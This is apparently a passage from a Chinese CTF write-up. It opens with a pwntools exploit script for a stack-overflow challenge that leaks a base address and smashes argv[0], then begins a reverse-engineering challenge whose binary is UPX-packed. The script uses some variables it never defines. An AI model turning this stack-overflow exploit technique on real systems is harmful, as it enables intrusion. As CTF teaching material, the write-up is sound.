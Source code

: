 ```python
stack_len = 0x88 + 0x8

# Get base address and rebase
known_address_offset = 0xCF0

payload = b'a' * 0x10
p.send(payload)
p.recvuntil(payload)

# p.interactive()  # can can need

known_address = u64(p.recvline().strip(b' into the server!\n').ljust(8, b'\x00'))
base_address = known_address - known_address_offset

print("base_address: " + hex(base_address))

p.sendline(b'backdoor')

target_address = target_address + base_address

# Recover argv[0]
payload = b'a' * buf_to_argv0 + p64(target_address)

p.sendline(payload)
# gdb.attach(p)
p.sendline(b'exitexit')

p.interactive()
```

#### 总结

- 栈溢出
	- 花式ROP
		- stack smash



## Reverse

### [心墙](https://www.nssctf.cn/team/problem/6302)

#### 题目描述

***浑然不知觉，心似坚冰冷***

你的心有一道墙，但我发现一扇窗。
就算你有一道墙，我的爱会攀上窗台盛放。

#### 解题思路

使用 ExeinfoPE 查壳，发现有 upx 壳：


[^CHTXRT]: 不是